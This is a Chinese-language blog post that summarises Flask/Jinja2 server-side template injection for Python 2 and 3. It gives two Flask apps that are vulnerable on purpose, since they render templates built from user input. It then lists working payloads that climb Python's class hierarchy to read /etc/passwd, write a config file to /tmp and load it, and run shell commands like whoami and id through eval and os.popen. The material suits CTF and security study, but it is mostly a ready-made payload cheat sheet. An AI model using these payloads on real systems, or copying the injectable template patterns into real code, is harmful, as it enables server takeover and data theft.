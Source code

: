 ```yaml
---
layout: post
title: 2019-01-10-flask-ssti注入 py2,3注入总结和区别
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


总结一下flask ssti的注入语句  
   
**代码**  
```
import uuid
from flask import Flask, request, make_response, session,render_template, url_for, redirect, render_template_string

app=Flask(__name__)
app.config['SECRET_KEY']=str(uuid.uuid4())

@app.route('/')
def index():
    try:
        username=session['username']
        return render_template('index.html',username=username)
    except Exception as e:
        return """<form action="%s" method='POST'>
        <input type='text' name='username' >
        <input type='password' name='password' >
        <input type='submit'>
        </form>""" % url_for("login")

@app.errorhandler(404)
def page_not_found(e):
    template='''
        {%% block body %%}
        <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>
        </div>
        {%% endblock %%}
    '''%(request.url)
    return render_template_string(template),404

@app.route('/',methods=['POST'])
def login():
    username=request.form.get("username")
    password=request.form.get("password")
    if username=='admin' and not password==str(uuid.uuid4()):
        return "login failed"
    resp=make_response(redirect(url_for("index")))
    session['username']=username
    return resp
app.run(port=81,debug=True)

```

# 一.   
python2，python2相对来说简单，有file  

  
1.文件读取或者写入  
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}  
>     {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}    



2.任意执行  
2.1每次执行都要先写然后编译执行
>     {{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('code')}}  
>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

2.2写入一次即可
>     {{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('from subprocess import check_output\n\nRUNCMD = check_output\n')}}  
>     {{ config.from_pyfile('/tmp/owned.cfg') }}  
>     {{ config['RUNCMD']('/usr/bin/id',shell=True) }}    

2.3 不回显的  
>     http://127.0.0.1:9998/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']('1+1')}}      
>     http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}

**3.任意执行只需要一条指令**  

>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}(难受啊，老铁们，自己捣鼓了好久，这个任意执行，回显！)
     
-------
>     总结:通过某种类型(字符串:""，list:[]，int：1)开始引出，__class__找到当前类，__mro__或者__base__找到__object__，前边的语句构造都是要找这个。然后利用object找到能利用的类。还有就是{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')}}这种的，能执行，但是不会回显。一般来说，python2的话用file就行，python3则没有这个属性。  
>     
  

# 二. #

然后是python3   
  
因为python3没有file了，所以用的是open  

>     http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('d://whale.txt').read()}}和python2的位置不一样，问题不大，挨个测试就能找出位置在在哪。  


同样是一句指令任意执行:  

>     {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}

# 三. 比较不同的一种，单独拿出来了。  

```
#python3
#Flask version:0.12.2
#Jinja2: 2.10
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
    name = request.args.get('name', 'guest')
    t = Template("Hello " + name)
    return t.render()
if __name__ == "__main__":
    app.run();

```    

**python3的时候**
#命令执行：  

>     {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
   
 
#文件操作  

>     {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

**python2的时候。(同上，不过不是不回显，而是要看网页源代码才能看出来)**